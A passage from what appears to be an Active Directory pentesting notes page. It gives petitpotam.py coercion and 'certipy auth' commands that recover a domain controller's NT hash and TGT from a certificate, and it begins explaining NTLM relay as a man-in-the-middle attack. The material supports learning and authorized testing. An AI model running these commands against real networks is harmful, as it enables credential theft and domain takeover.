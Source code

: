 ```bash
petitpotam.py $OUR_IP $DC_NAME.$DOMAIN.local
```

> We could have used `Responder` or `mitm6` to recover the connection instead of `petipotam`. This will not use coertion but spoof different protocols to recover a connection and send it to certipy.
{: .prompt-warning}

We recover the `NT` hash and `TGT` of the DC from the certificate :

```bash
certipy auth -pfx CERTIFICATE.pfx -dc-ip $DC_IP
```

> For information purpose, in all above cases, `certipy auth` does not always work, but even when we can't use it, the ESC is still exploitable by other means.
{: .prompt-tip}


### NTLM Relay

First of all, NTLM is NOT an isolated protocol that generates network traffic. It is only a `authentication protocol`. It must be embedded in applications protocols like `SMB`, `LDAP`or `HTTP` to work.

> You can have more information on the NTLM protocol on [this section](https://nouman404.github.io/Notes/AD/AD_Basics#ntlm).
{: .prompt-info}

The NTLM relay is using MiTM (Man in The Middle) attack. We need to be between the client and the server. The goal here is that the server believes that we (the attacker) are the client and that the client believe that we (the attacker) are the server. But if you remember the challenge/response scheme from the NTLM section, we need the `NT Hash` of the user to be able to calculate the response to the challenge and we don't have it. So this is when the MiTM become useful. 

![[AD_Relay_Scheme_bbto.png]](https://raw.githubusercontent.com/Nouman404/nouman404.github.io/main/_posts/Notes/photos/AD_Relay_Scheme_bbto.png)

